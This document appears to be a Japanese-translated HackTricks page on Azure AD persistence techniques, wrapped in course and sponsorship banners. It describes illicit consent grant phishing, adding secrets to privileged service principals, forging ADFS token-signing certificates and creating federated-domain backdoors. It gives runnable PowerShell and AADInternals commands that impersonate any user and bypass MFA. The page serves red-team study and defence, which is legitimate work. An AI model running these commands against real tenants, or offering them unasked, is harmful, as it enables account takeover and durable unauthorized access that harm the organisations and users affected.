 # Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Illicit Consent Grant

デフォルトでは、任意のユーザーがAzure ADにアプリケーションを登録できます。したがって、高い影響力のある権限が必要なアプリケーション（ターゲットテナント専用）を管理者の同意で登録できます（管理者であれば承認できます） - ユーザーの代理でメールを送信したり、役割管理を行ったりすることなどです。これにより、成功した場合に非常に**有益**な**フィッシング攻撃**を**実行**することができます。

さらに、あなたのユーザーとしてそのアプリケーションを受け入れることで、アクセスを維持する方法としても利用できます。

### Applications and Service Principals

アプリケーション管理者、GA、またはmicrosoft.directory/applications/credentials/update権限を持つカスタムロールの特権を持つ場合、既存のアプリケーションに資格情報（シークレットまたは証明書）を追加できます。

**高い権限を持つアプリケーションをターゲットにする**ことも、**高い権限を持つ新しいアプリケーションを追加する**ことも可能です。

アプリケーションに追加するのに興味深い役割は、**特権認証管理者ロール**であり、これによりグローバル管理者の**パスワードをリセット**することができます。

この技術はまた、**MFAをバイパス**することも可能です。

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* 証明書ベースの認証の場合

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federation - Token Signing Certificate

**DA権限**を持つオンプレミスADでは、非常に長い有効期限を持つ**新しいトークン署名**および**トークン復号化証明書**を作成およびインポートすることが可能です。これにより、私たちは**ImmutableID**を知っている任意のユーザーとして**ログイン**することができます。

**以下のコマンドをADFSサーバーでDAとして実行**して、新しい証明書を作成し（デフォルトのパスワードは'AADInternals'）、それらをADFSに追加し、自動ロールオーバーを無効にし、サービスを再起動します：
```powershell
New-AADIntADFSSelfSignedCertificates
```
次に、Azure ADで証明書情報を更新します：
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

テナントにGA権限がある場合、**新しいドメインを追加**することが可能です（確認が必要です）、その認証タイプをFederatedに設定し、ドメインを**特定の証明書**（以下のコマンドのany.sts）および発行者を**信頼する**ように設定します：
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## 参考文献

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

